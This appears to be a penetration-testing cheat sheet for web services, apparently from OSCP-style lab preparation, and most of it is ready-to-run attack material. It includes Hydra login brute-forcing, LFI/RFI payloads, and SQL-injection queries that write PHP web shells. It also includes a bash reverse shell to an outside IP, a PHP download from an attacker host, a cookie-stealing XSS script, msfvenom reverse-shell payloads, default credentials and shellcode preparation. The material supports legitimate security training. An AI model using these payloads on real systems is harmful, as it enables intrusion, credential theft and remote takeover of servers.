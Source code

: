 ## Web Login form Brutefocing 
HTTP Hydra	
```sh
hydra -l admin -P /usr/share/wordlist/SecList/Passwords/10k_most_common.txt 192.168.88.162 http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid" -t 64
```

## PUT method	
```sh
nmap -sV --script http-put --script-args http-put.url=’/test/meterpreter4444.php’,http-put.file=’/root/Exam0119/pwd/192.168.111.149/meterpreter4444.php’ -p 80 192.168.111.149
nmap –script http-methods –script-args http-methods.url-path=’/uploads’,http-methods.test-all -p 8585 172.28.128.3
```


## Starting Web Service
```sh
//Attacker usually uses this to transfer files
python -m SimpleHTTPServer 8080
python3 -m http.server 80"
```

## Nmap Scanning for Web Service(HTTP/HTTPS)
```sh
nmap -PN -p 22 --open -oG - 10.11.1.* | awk '$NF~/ssh/{print $2}'
nmap 10.11.1.* -p22,80 --open -oG - | awk '/22\/open.*80\/open/{print $2}'
nmap 10.11.1.* -p80,8080 --open -oG - | awk '/80\/open.*8080\/open/{print $2}'
nmap -p 80,8080 10.11.1.1-255
```
## - **Uniscan Scanning** <br />
```sh
uniscan.pl -u target -qweds
```

## - **HTTP Enumeration** <br />
```sh
httprint -h http://www.example.com -s signatures.txt
```

## - **Directory Traversal** <br />
To navigate and find any sub directories.
Dirbuster Wordlist : /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
```sh
dirb http://10.11.1.202 /usr/share/dirb/wordlists/vulns/iis.txt
gobuster -u http://10.11.1.133/ -w /usr/share/wordlists/dirb/common.txt -q -n -e
dirb http://10.11.1.133/index/sips/ /usr/share/dirb/wordlists/
./dirsearch.py -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u $targetip -e php"
//cf. https://github.com/maurosoria/dirsearch

//removing status code for 200,204,301,307,403; 
gobuster -s 200,204,301,307,403 -u http://192.168.88.168 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
```

## - **Nikto** <br />
```sh
nikto -h 192.168.88.132
nikto -h http(s)://[IP]:[PORT]/[DIRECTORY] 
nikto -C all -h http://10.11.1.72"
```


## - **LFI(Local File Inclusion)** <br />
lfisuite.py
eg. 
```sh
browse.php?file=php://filter/convert.base64-encode/resource=ini.php
browse.php?file=php://filter/convert.base64-encode/resource=browse.php
echo -n encodedstrings | base64 -d
browse.php?file=/etc/passwd
index.php?file=
```
If target has phpinfo.php, check out "file_uploads", see if appears as enabled(ON); if so, the target is vuln for LFI. 


## - **Squid** <br />
proxy scanner/http/squid_pivot_scanning
RHOST : Target
RANGE : Target
RPORT : Squid port 
```sh
msf auxiliary(scanner/http/squid_pivot_scanning) > run
[+] [192.168.88.155] 192.168.88.155 is alive but 21 is CLOSED
[+] [192.168.88.155] 192.168.88.155:80 seems OPEN
if the target uses squid proxy via 3128 port, use nikto with that proxy setting 
nikto -h 192.168.88.155 -useproxy http://192.168.88.155:3128"
```
## - **ShellShock** <br />
nikto scan results; shows shellshock on /cgi-bin; use 34900.py 
```sh
root@kali:~/Exam/Sicos1# python 34900.py payload=reverse rhost=192.168.88.155 lhost=192.168.88.157 lport=1234
[!] Started reverse shell handler
[-] Trying exploit on : /cgi-bin/status"
```

## - **MySQL** <br />
```sh
nmap -sV -Pn -vv –script=mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122 10.0.0.1 -p 3306
```
MySQL login : ```sh mysql -h 192.168.88.152 -D wordpress -u root -p plbkac```
MySQL Spawning Reverse shell(linux) : union select ""<?php exec(\""/bin/bash -c \'bash -i >& /dev/tcp/159.203.242.172/1999 0>&1\'\"");"" INTO OUTFILE '/var/www/ecustomers/samshell4.php' #
UPLOAD A FILE
' union select ""<?php file_put_contents(\""root\"", file_get_contents(\""http://attack.samsclass.info/root\"")); ?>"" INTO OUTFILE '/var/www/ecustomers/samget2.php' #
OPEN A PHP SHELL
' union select ""<?php system($_REQUEST['cmd']); ?>"" INTO OUTFILE '/var/www/ecustomers/samshell.php' #"


IIS 	"nitko scan results; IIS version; windows OS version can be revealed
dirb http://10.11.1.72 /usr/share/dirb/wordlists/common.txt
auxiliary/admin/http/iis_auth_bypass"
"Tomcat
tomcat/tomcat"	"/manager/index.html
http://10.11.1.209:8080/manager/html
upload msfvenom jsp or war file
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.11.0.37 LPORT=443 -f war > shell.war
root@kali:~/PWK-Lab/10.11.1.209# jar -xvf shell.war"
PHP + DB cred files	"/etc/mysql/my.cnf 
/var/www/html/config.php"
SQL injection	"https://sql--injection.blogspot.com/p/the-process.html
https://grosquildu.github.io/pentests/web/"
Cookie stealing xss	"<script> new Image().src=""http://10.11.0.42:81/bogus.php?output=""+document.cookie; </script> 
"
"wordpress
(needs to use new kali)"	"wpscan --url http://10.11.1.71/ -enumerate p
wpscan --url 10.0.2.4 --enumerate vp
wpscan --url https://192.168.88.152:12380/blogblog -enumerate u --disable-tls-checks
wpscan --url http://192.168.88.179/wordpress/ --wordlist /usr/share/wordlists/rockyou.txt
wpscan --url https://192.168.88.152:12380/blogblog/ --enumerate ap --disable-tls-checks
wpscan --url www.local.test --enumerate u --threads 50
lets find a username ; https://medium.com/@the.bilal.rizwan/wordpress-xmlrpc-php-common-vulnerabilites-how-to-exploit-them-d8d3c8600b32
find a password(autoscript) : https://github.com/claudioviviani/bash-wordpress-xml-bruteforce
https://www.sunnyhoi.com/hack-wordpress-website-using-wpscan-metasploit/
elliot has administrative access on WP, which means we can easily change 404.php file with a reverse shell. Go to Appearance -> Editor and swap the 404.php code with your modified revsh. Make sure you change the IP and PORT in the php file. Then start a listener and hit a random page like http://192.168.1.72/idontexist."
"phpMyAdmin
http://*.*.*.*/phpmyadmin
db and password located @
/etc/phpmyadmin/config-db.php"	"cred(root/blank)(pma/blank)
hydra 10.10.10.43 -l admin -P /usr/share/dict/rockyou.txt http-post-form ""/department/login.php:username=^USER^&password=^PASS^:Invalid Password!""
upload malicious database as .php 
ref : http://hackingandsecurity.blogspot.com/2017/08/proj-12-exploiting-php-vulnerabilities.html
SQL-phpshellscript : 
(1)Once login, clilck SQL and ""Run SQL query/queries on server ""localhost"":"" and provide beblow sql-query to create (shell).php script.
Windows : SELECT ""<?php system($_GET['cmd']); ?>"" into outfile ""C:\\xampp\\htdocs\\shell.php""
Linux : SELECT ""<?php system($_GET['cmd']); ?>"" into outfile ""/var/www/html/shell.php""
(2) now visit http://192.168.1.101/DBlocation/shell.php?cmd=ipconfig
(3) if you wanna hav better shell; ?cmd=wget%20192.168.1.102/shell.php"
CURL | base encode/decode	"curl -s http://192.168.88.168/index.php
root@kali:~$echo jeff | base64
amVmZgo=
root@kali:~$echo -n VXNlcm5hbWU6 |base64 -d
Username:"
RFI	"https://github.com/3mrgnc3/LFIter2/blob/master/lfitr2.py
https://www.youtube.com/watch?v=rs4zEwONzzk
browse.php?file=http://10.11.0.42/index.html
browse.php?file=ftp://10.11.0.42/index.html
browse.php?expect://ls
gain a shell via phpinfo.php https://office.tuxcon.com/root/web-sec-payloads/src/commit/fd99da6c06e00a596becdcfc6d2efe50bad0f47c/File%20Inclusion%20-%20Path%20Traversal
phpinfolfi.py or https://github.com/D35m0nd142/Kadabra/blob/master/phpinfo.py
needs to update the shell and browse.php part etc. 
instruction : https://www.youtube.com/watch?v=rs4zEwONzzk"
Webdav 	"nmap -T4 -p80 --script=http-iis-webdav-vuln 10.11.1.229
cf. auxiliary : webdav_test
davtest -url http://10.11.1.229
[webhsell]msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.42 LPORT=443  -f asp > shells.asp 
[webhsell]/usr/share/webshells/asp/cmdasp.asp
cadaver http://10.11.x.x/webdav/
dav:> put shells.txt
Uploading shells.txt to `shells.txt':
dav:> copy shells.txt shells.asp;.txt"
ColdFusion	"Version check : http://example.com/CFIDE/adminapi/base.cfc?wsdl
LFI(passowrd file) : http://server/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
(either - neo-security.xml and password.properties)
ref * https://www.gnucitizen.org/blog/coldfusion-directory-traversal-faq-cve-2010-2861/
exploit/windows/http/coldfusion_fckeditor - only for 8.0.1"
XAMPP	cred(wampp/xampp)
RealVNC	"https://www.exploit-db.com/exploits/36932
Edit, BIND_ADDR into mine and BIND_PORT into 4444
root@kali:~/PWK-Lab/10.11.1.227$python RealVNC-exploit-36932.py 
[*] Please input an IP address to pwn: 10.11.1.227
[*] Hello From Server: RFB 003.008
Ctrl+Alt+Shift+Del will be vmware's ctrl+alt+del"
Drupal	cred(admin/admin)
Elastix	"cred(admin/admin) http://example.com/vtigercrm/ 
You might be able to upload shell in profile-photo."
SuirrelMail	"https://raw.githubusercontent.com/xl7dev/Exploit/master/SquirrelMail/SquirrelMail_RCE_exploit.sh
RFI : http://10.11.1.115/webmail/src/read_body.php?mailbox=/etc/passwd&passed_id=1&"
	
AT-TFTP 1.9 version	"https://github.com/brianwrf/cve-2006-6184
1.perl -e 'print """"\x81\xec\xac\x0d\x00\x00""""' > stackadj
2.msfvenom -p windows/shell/reverse_nonx_tcp LHOST=10.11.0.37 LPORT=443 R > payload
3.cat stackadj payload > shellcode
4. cat shellcode | msfvenom -e x86/shikata_ga_nai -b """"\x00"""" -a x86 --platform win -f python"
